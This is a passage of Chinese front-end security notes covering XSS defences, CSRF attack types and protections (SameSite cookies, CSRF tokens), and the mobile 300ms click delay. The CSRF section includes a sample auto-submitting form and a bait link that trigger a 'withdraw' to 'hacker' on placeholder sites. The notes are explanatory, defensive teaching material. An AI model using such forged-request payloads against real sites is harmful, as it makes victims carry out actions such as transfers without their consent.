2. 对用户输入进行转义，比如把`<script></script> `转义为 `&lt;script&gt;&lt;/script&gt`;
3. 代码需要动态展示内容时用innerText 取代 innerHTML ，使用v-text取代 v-html，尽量少做HTML字符串拼接，禁止使用eval执行JS。
4. 服务端Set Cookie时 带上HttpOnly字段，阻止JavaScript获取Cookie
5. 对于上传图片的场景，禁止使用用户填写的图片地址。特别是Markdown编辑器。

### CSRF攻击
Cross-site request forgery, 跨站点请求伪造。攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

#### 攻击流程
- 受害者登录http://a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了http://b.com。
- http://b.com 向 http://a.com 发送了一个请求：http://a.com/act=xx。浏览器会默认携带http://a.com的Cookie。
- http://a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- http://a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让http://a.com执行了自己定义的操作。

#### 攻击类型
- GET类型的CSRF

一个常见的场景是匿名点赞，服务端会根据匿名访问者的IP来区分用户。攻击者把这个点赞接口集成到自己网站的图片里，任何人访问攻击者的网站都相当于给攻击者做了嫁衣帮忙点了一次赞。
``

- POST类型的CSRF

这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```
<form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

- 链接类型的CSRF

比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
`<a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">重磅消息！！<a/>`
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。

#### 防护方法
- Referer判断

根据Referer来判断请求来源。如果不在白名单，服务器忽略该请求。 该方法不可靠，Referer伪造太容易了

- Samesite Cookie

对于需要保护的Cookie，服务器在设置cookie时可以设置 Samesite的值，如
`Set-Cookie: sid=1; Samesite=Strict`

- Samesite=Strict。严格模式。假设b.com种下的Cookie设置Strict，当在a.com请求b.com的接口时不会带上Cookie，从a.com 打开一个b.com的链接，这个请求也不会带上cookie。
- Samesite=Lax。宽松模式，新版Chrome的默认模式。假设b.com种下的Cookie设置Lax，当在a.com请求b.com的接口时不会带上Cookie，但从a.com 打开一个b.com的链接，这个请求会带上cookie。
- Samesite=None。假设b.com种下的Cookie设置None，当在a.com请求b.com的接口时会带上Cookie，从a.com 打开一个b.com的链接，这个请求也会带上cookie。

阻止了跨域Cookie，攻击者就没办法从第三方网站发起请求仿冒用户的身份了。

- CSRF Token

用户访问并登录b.com 时，服务器会写入Cookie，同时会在返回的HTML上埋点`<input type="hiden">`，比如
```
<form>
	<input type="hiden" csrftoken="afe3f94jjfwr" >
  <input type="text" name="username" value="">
  <input type="password" name="password" value="">
</form>
```
当用户提交表单或者发送Ajax请求时，在请求参数或者请求头带上之前埋入的csrftoken。请求到服务器后服务端会做验证，识别通过后才响应请求。

因为这个token是埋在b.com里，攻击者从第三方网站伪造请求时得不到这个token，所以请求会失败。

这种方式的优点是安全，缺点是服务端同时也要存储和维护token，比较麻烦。

- 无需存储的CSRF Token

用户访问并登录b.com 时，服务器会写入用于登录的Cookie。同时服务端会做两件事
1. 在返回的HTML上埋点`<input type="hiden">`
2. 在Cookie里写入该csrftoken值

```
<form>
	<input type="hiden" csrftoken="afe3f94jjfwr" >
  <input type="text" name="username" value="">
  <input type="password" name="password" value="">
</form>
```

`Set-Cookie: csrftoken=afe3f94jjfwr`

当用户提交表单或者发送Ajax请求时，在请求参数或者请求头带上之前埋入的csrftoken。请求到服务器后服务端会从用户的请求参数里拿出token和请求自带的cookie里的token做比对，如果都存在且一致，则请求通过。

因为这个token是埋在b.com里，攻击者从第三方网站伪造请求时得不到这个token，所以无法在请求参数里带上该token，请求会失败。


### 300ms 延时

所谓的300ms延迟，指的是用户在点击屏幕之后（在touchend事件触发后），等待300～400ms才触发click事件。

页面总是能放大缩小。设置meta禁用页面缩放是无效的，比如即使页面加了`<meta name="viewport" content="user-scalable=no"> `依然能双指缩放，双击还原。
只要页面处于放大状态，单击就一定有延迟；只要页面处于未放大的原始状态，单击就一定没有延迟。在一般情况下，不管是pc端页面还是移动端页面，不管有没有设置meta，不管有没有禁用缩放，用户打开页面默认就处于原始状态，是没有延迟的。当用户双指放大后，单击才出现延迟。

